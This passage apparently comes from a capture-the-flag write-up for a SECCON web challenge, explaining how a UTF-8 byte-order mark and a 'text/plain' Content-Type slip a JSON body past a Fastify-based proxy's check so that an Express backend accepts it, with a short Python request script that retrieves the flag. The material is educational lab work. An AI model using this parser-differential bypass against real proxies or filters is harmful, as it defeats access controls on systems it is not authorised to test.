 Also there was some interesting behaviors in the code:

- `proxy` rewrites the Content-Type header to "application/json"
- So, you can send "text/plain" requests to (not others;
  [Fastify won't support them](https://fastify.dev/docs/v2.15.x/Documentation/ContentTypeParser/#content-type-parser)).
- No, this doesn't solve the challenge itself, because `proxy` parses the body to JSON if it's not an object,
  that is, the request type was "text/plain" (or JSON Array/String/Number, but let's skip that cases).

So what can we do here?

I found the builtin JSON body parser on Fastify; it was [`secure-json-parse`](https://github.com/fastify/secure-json-parse).
It contained the following code:

```js
// BOM checker
if (text && text.charCodeAt(0) === 0xFEFF) {
  text = text.slice(1)
}
```

[UTF-8 BOM](https://en.wikipedia.org/wiki/Byte_order_mark) is a tricky character. It can be used to specify
the encoding of the content, but in many cases, you can't sure if it would be even parsed successfully or not.

One example:

```js
> JSON.parse('\ufeff{"givemeflag":true}')
Uncaught SyntaxError: Unexpected token  in JSON at position 0
```

So straight `JSON.parse()` doesn't care about the BOM character.

The above BOM checking/correcting code is from the builtin JSON body parser. This is not applied to
the parser of `proxy`: When it receives the "text/plain" request, it simply passes it to `JSON.parse()`.
It throws an error, and thereby the request gets allowed!

If the JSON body parser of Express, `express.json()`, takes care of the UTF-8 BOM character, sending
a JSON request with a UTF-8 BOM character and "text/plain" Content-Type will give us the flag.

```py
import requests

r = requests.post("http://198.13.36.134:3000/",
                data='\ufeff'.encode('utf-8') + b'{"givemeflag":true}',
                headers={'Content-Type': "text/plain"})

print("Result:", r.text)

# Result: SECCON{**MAY**_in_rfc8259_8.1}
```
